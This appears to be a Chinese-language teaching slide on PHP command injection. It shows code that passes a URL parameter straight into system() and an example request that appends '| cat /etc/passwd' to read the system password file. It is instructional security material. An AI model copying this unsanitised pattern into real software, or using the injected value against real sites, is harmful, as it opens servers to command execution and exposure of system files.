

Php命令注入
System函数漏洞代码：

$dir = $_GET["dir"];
if (isset($dir))
{
    system("ls -al ".$dir);
}
?>

我们提交http://www.sectop.com/ex1.php?dir=| cat /etc/passwd
提交以后，命令变成了 system("ls -al | cat /etc/passwd");